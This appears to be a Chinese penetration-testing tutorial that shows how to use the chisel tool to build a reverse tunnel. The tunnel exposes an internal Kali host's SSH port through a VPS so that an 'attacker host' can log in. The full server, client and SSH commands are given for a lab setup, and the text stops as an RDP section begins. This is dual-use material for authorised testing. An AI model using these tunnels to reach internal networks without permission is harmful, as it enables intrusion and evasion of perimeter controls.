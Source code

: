 首先需要三台 linux 主机，在这里使用 VPS 作为 chisel 服务器端，然后使用 kali 作为内网主机，使用另一台主机作为我们的攻击者主机。如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1anFZhhEicaeAhaSUrpyl4D8yBl1wQZCiaTGYHuae7gH0icAib3rWRPmcpg/640?wx_fmt=png)

(1): 第一步: 搭建 chisel 隧道

*   chisel 服务端 (CentOS 上)
    

```
./chisel server -p 6666 --reverse
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1icr9cgzUFlnG6nXg7480Vu27OSTFMN8haWiaTtMQibE9pNQGmWzOsu9ibg/640?wx_fmt=png)

首先，服务器端监听 6666 端口，然后使用 reverse 参数，reverse 表示的是服务端使用反向模式，也就是说流量转到哪个端口由客户端指定。

*   chisel 客户端 (kali 的 IP 为 192.168.223.160)
    

```
./chisel client -v VPS:6666 R:0.0.0.0:8888:192.168.223.160:22 
./chisel client -v VPS:6666 R:8888:192.168.223.160:22
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1Lo6XrrJ3SOAArn2bPHP1khiczy3q1pzIJzia21lykhvkicSdLwVZ1PDLA/640?wx_fmt=png)

客户端启动成功。

**说明: 可以使用第一条命令，也可以使用第二条命令，其实第二条命令和第一条命令效果一样，只是省略了 0.0.0.0，chisel 的客户端默认使用的就是 0.0.0.0 这个 IP。**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1v46XGo8ug5ibOpRtNtabPxdeJnEjekpdfWZc2QxKEXgyVoj1C02qWzQ/640?wx_fmt=png)

(2): 第二步: 将 kali 的 22 端口转发到 VPS 的 8888 端口上

其实上一步已经完成了这一步操作，现在看一下 chisel 服务端和客户端的连接情况。

*   服务器端
    

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1HUyvMd1WZSyZktkJ37ozMIHvJIlE8WOsqFVcicpgUeTCbecgvBvNvDg/640?wx_fmt=png)

*   客户端
    

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1tW5fh69yCic8icN4Ex2tOQ7S9rcvYDhvGMZwMyaAyJasWaHTXyx4cmicw/640?wx_fmt=png)

SSH 已经连接。

(3): 第三步: 使用攻击者主机连接 kali 的 SSH

```
ssh -p 8888 root@VPS(chisel服务端IP)
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1Wt9ffnjudiavgnicrFsiccouEhOBMOibO6EyKwSDOonyU36Dxc6rWBuaCQ/640?wx_fmt=png)

#### **0x02 chisel 进行远程桌面代理**

首先需要两台 windows 主机和一台 VPS，在这里使用 VPS 作为 chisel 服务器端，然后使用 win7 作为内网主机，使用 win10 作为我们的攻击者主机。如下图所示。原理和 ssh 穿透类似。
